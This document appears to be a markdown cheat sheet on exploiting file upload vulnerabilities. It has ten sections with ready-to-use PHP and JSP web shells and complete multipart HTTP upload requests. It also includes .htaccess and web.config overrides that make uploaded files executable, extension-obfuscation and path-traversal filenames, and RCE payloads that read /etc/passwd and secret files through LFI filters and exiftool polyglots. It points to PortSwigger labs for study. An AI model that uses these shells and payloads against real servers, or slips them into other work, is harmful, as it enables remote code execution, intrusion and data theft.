 # **File Upload Vulnerability**

## **Index**

1. [PHP Web Shell Upload](#1-php-web-shell-upload)  
2. [Image Upload with Embedded PHP Code](#2-image-upload-with-embedded-php-code)  
3. [Bypassing Content-Type Validation](#3-bypassing-content-type-validation)
4. [Uploading Files via Path Traversal Vulnerability](#4-uploading-files-via-path-traversal-vulnerability)  
5. [Uploading Files Using PUT](#5-uploading-files-using-put) 
6. [Exploiting Server Configuration](#6-exploiting-server-configuration)  
     - [Apache Bypass](#apache-bypass)  
     - [IIS Bypass](#iis-bypass)  
7. [Obfuscating File Extensions](#7-obfuscating-file-extensions)
8. [File Content Exploit Via Polyglot](#8-File-Content-Exploit-Via-Polyglot)
9. [SSRF By Uploading Url Instead Of Picture](#9-SSRF-By-Uploading-url-instead-of-picture)
10. [PHP Payloads for RCE](#10-php-payloads-for-rce)
---
### **1. PHP Web Shell Upload**

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```

In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

---

### **2. Image Upload with Embedded PHP Code**

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```

The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

---

### **3. Bypassing Content-Type Validation**

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```

Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

---

### **4. Uploading Files via Path Traversal Vulnerability**

In some cases, you can exploit file upload vulnerability via path traversal:  
- `filename="../exploit.php"`  
- URL encoding: `filename="..%2fexploit.php"`

---

### **5. Uploading Files Using PUT**

```text
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
### **6. Exploiting Server Configuration**

#### **Apache Bypass**
```text
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell

Step 2 >>
filename="test.shell"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

#### **IIS Bypass**
```text
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>

Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

Reference: [Portswigger Lab Overriding the server configuration](https://portswigger.net/web-security/file-upload#overriding-the-server-configuration)

---

### **7. Obfuscating File Extensions**
```text
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
.php.
exploit.asp;.jpg
exploit.asp%00.jpg
```

Reference : [Portswigger](https://portswigger.net/web-security/file-upload#obfuscating-file-extensions)

---

### **8. File Content Exploit Via Polyglot**
<br>

For more details: [Portswigger](https://portswigger.net/web-security/file-upload#flawed-validation-of-the-file-s-contents)

### **9. SSRF By Uploading Url Instead Of Picture**

In some cases we can exploit SSRF via file upload vulnerability. In this case we need to change `type:file to type:url` and add a image url.<br>
<br>
Here is a h1 POC: [Upload profile photo from URL](https://hackerone.com/reports/713)

### **10. PHP Payloads for RCE**

```php
<?php echo file_get_contents('/etc/passwd'); ?> // To read files
<?php system($_GET['cmd']); ?> // For system command
<?php passthru($_GET['cyborg71']); ?> // For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls // LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```
---


